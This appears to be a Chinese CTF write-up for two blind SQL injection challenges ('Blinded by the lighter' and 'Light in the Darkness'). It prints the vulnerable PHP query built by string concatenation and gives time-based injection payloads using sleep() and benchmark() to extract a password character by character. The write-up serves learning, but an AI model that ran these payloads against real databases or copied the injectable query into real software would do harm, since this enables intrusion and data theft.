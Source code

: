 ## Blinded by the lighter

* * *

这题和上题相同，只不过把次数减少成为 33 次

漏洞代码：

```
function blightVuln($password)
{
        # Do not mess with other sessions!
        if ( (strpos($password, '/*') !== false) || (stripos($password, 'blight') !== false) )
        {
                return false;
        }

        $db = blightDB();
        $sessid = GWF_Session::getSessSID();
        $query = "SELECT 1 FROM (SELECT password FROM blight WHERE sessid=$sessid) b WHERE password='$password'";
        return $db->queryFirst($query) !== false;
}

```

利用方式：

使用基于时间的注入来判断字符 ascii 码

```
' or benchmark(ord(substr(password,1,1))*1000000,MD5(1)) 
```

这样做可以提高一点精确度

```
' or sleep(ord(substr(password,1,1))) 
```

ps.这题使用这种方法写的脚本，在精度上会出现问题，如果有什么好的思路请留言告知~~~~

## Light in the Darkness

* * *

上面两题的加强版，只允许 2 次查询。不过是返回错误信息的盲注。可以使用双查询报错。

漏洞代码：

```
function blightVuln($password)
{
        # Do not mess with other sessions!
        if ( (strpos($password, '/*') !== false) || (stripos($password, 'blight') !== false) )
        {
                return false;
        }

        $db = blightDB();
        $sessid = GWF_Session::getSessSID();
        $query = "SELECT 1 FROM (SELECT password FROM blight WHERE sessid=$sessid) b WHERE password='$password'";
        return $db->queryFirst($query) !== false;
}

```
